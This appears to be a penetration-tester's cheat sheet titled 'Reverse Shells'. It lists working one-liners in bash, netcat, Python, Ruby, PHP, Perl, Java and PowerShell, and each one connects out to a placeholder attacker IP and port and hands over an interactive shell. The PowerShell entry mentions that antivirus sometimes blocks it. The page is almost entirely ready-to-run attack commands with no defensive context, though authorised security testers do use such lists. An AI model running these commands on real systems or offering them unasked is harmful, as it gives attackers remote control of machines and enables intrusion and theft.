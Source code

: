 title: Reverse Shells

# Reverse Shells

## bash

```
bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1
```

## netcat / nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP-ADDRESS} {PORT} >/tmp/f 
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("{IP-ADDRESS}",{PORT}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' 
```

## PHP

```php
php -r '$sock=fsockopen("{IP-ADDRESS}",{PORT});exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Perl

```perl
perl -e 'use Socket;$i="{IP-ADDRESS}";$p={PORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

## Java

```
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{IP-ADDRESS}/{PORT};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor() 
```

## Powershell
This one sometimes get blocked by AV or Powershell security configuration.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('{IP-ADDRESS}',{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'"
```